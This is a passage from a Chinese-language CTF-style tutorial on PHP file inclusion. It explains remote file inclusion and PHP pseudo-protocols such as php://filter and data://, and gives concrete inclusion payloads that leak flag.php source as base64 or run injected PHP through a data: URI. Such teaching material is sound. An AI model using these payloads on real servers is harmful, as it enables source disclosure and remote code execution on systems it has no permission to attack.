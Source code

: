 ```txt
<?php
phpinfo();
?>
```

当攻击者在**http://a.com/1.txt**写入php代码时，使用GET传参控制?url=**http://a.com/1.txt**，那么服务器端将执行1.txt中的php代码

## 3.PHP伪协议

## 3.1常用php伪协议

> PHP 伪协议是一种特殊的 PHP 特性，允许在 PHP 中通过类似 URL 的方式来访问各种资源，如文件、数据流等
> - file://: 允许 PHP 访问本地文件系统中的文件
> - http:// 或 https://: 允许 PHP 通过 HTTP 或 HTTPS 协议访问远程服务器上的资源
> - ftp://: 允许 PHP 通过 FTP 协议访问远程 FTP 服务器上的文件。
> - php://: 提供了访问各种输入输出流的方式
> - data://: 允许在 PHP 中直接使用数据 URI，将数据嵌入到 URL 中


### 3.1.1 php://

payload1：**url?c=include$_GET[1];&1=php://filter/convert.base64-encode/resource=flag.php**

#### 拆分理解

**php://filter**作用将数据，文件内容封装起来

**convert**数据编码转换器，不进行编码的话，flag.php会作为php文件运行，无法看到文件内容  

**base64-encode**使用base64的编码格式打印出来

payload2：**url?c=include$_GET[1];&1=data:text/plain,<?php echo "helloworld"?>**  

highlight_file($_GET['cmd'])，也能将伪协议赋值的变量内容读出来

![php伪协议](https://the0n3.top/medias/ctfshow_web30_命令执行/image.png)

根据这张图，还可以再延申出几种方式

#### 3.1.2 php://多种方式读取

> 注意：这些方式不会直接读出php文件的内容，搭配highlight_file()，show_source()函数一起食用

直接读：php://filter/resource=flag.php

url编码读：php://filter/convert.url-encode/resource=flag.php

html编码读：php://filter/convert.html-encode/resource=flag.php等等多种方式

### 3.1.3 data://  

> 注意：data:text/plain，php://input等伪协议需要在php.ini配置文件中打开**allow_url_fopen，allow_url_include**这两项  

> 数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它与包含函数结合时，用户输入的data:text/plain流中如果有PHP代码，将会被当作php正常执行。

两种形式
